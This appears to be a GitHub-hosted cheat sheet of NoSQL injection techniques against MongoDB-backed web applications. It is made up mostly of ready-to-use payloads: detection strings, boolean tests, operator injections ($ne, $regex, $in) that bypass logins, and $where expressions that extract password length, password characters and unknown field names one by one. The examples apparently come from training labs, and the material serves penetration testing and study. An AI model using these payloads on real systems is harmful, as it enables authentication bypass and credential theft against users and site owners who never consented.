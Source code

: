 # Basic operator difference between SQLi && NoSQLi
  1. ```or``` >> ```||```
  2. ```and``` >> ```&&```
  3. ```-- -``` >> ```%00``` 
# Detecting NoSQLi Vulnerability
```
'
\'
'+%26%26+1%3d%3d1%00
'+||+1%3d%3d1%00
'||1||'
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
'\"`{\r%3b$Foo}\n$Foo+\\xYZ\u0000
```
# Confirming conditional behavior
```
' && 0 && 'x
' && 1 && 'x
' || 1 || 'x
'%00
```
You can also remove the ```x``` end of the payload.
## Example with explanation:

  1. ```category=Gifts' && 0 && 'x``` >> This will return no items like ```category=Gifts' and 1=0-- -``` in sql injection.
  2. ```category=Gifts' && 1 && 'x``` >> This will return Gift items like ```category=Gifts' and 1=1-- -``` in sql injection.
  3. ```category=Gifts' || 1 || 'x``` >> This will return all the items like ```category=Gifts' or 1=1-- -``` in sql injection.

# NoSQL operator injection
```
    $where - Matches documents that satisfy a JavaScript expression.
    $ne - Matches all values that are not equal to a specified value.
    $in - Matches all of the values specified in an array.
    $regex - Selects documents where values match a specified regular expression.
```
## Submitting query operators
In JSON messages, you can insert query operators as nested objects. For example, ```{"username":"wiener"}``` becomes ```{"username":{"$ne":"invalid"}}```.

For URL-based inputs, you can insert query operators via URL parameters. For example, username=wiener becomes ```username[$ne]=invalid```. If this doesn't work, you can try the following:

    Convert the request method from GET to POST.
    Change the Content-Type header to application/json.
    Add JSON to the message body.
    Inject query operators in the JSON.
# MongoDB Login Bypass
```
{"$regex":"wien.*"} >> For username
{"$ne":"Invalid"} >> For password
{"$in":["admin","administrator","superadmin"]} >> For bruteforce
```
If this doesn't work, you can try the following:
    Convert the request method from GET to POST.
    Change the Content-Type header to application/json.
    Add JSON to the message body.
    Inject query operators in the JSON.
# MongoDB Data Retrieving
```
' && this.password.length < 50%00 >> For extracting password length in URL
' && this.password[0] == 'a'%00 >> For extracting password in URL
```
#Operator Injection To Retrieving Unknown Data

{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"e"} >> To generate an server error.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"} >> To generate a false statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"1"}} >> To generate a true statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}.*')"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}0.*')"}}

Object.keys(this)[0].match('^.{0}.*') >> To identify data size. Ex: Password
Object.keys(this)[0].match('^.{0}0.*') >> To fetch the data
this.forgotpwd.match('^.{0}.*') >> To fetch specific keyvalue data size.
this.forgotpwd.match('^.{0}0.*') >> To fetch specific keyvalue.

1st 0 means key number
2nd 0 means data size
3rd 0 means data character
For bruteforcing select only 2nd and 3rd 0

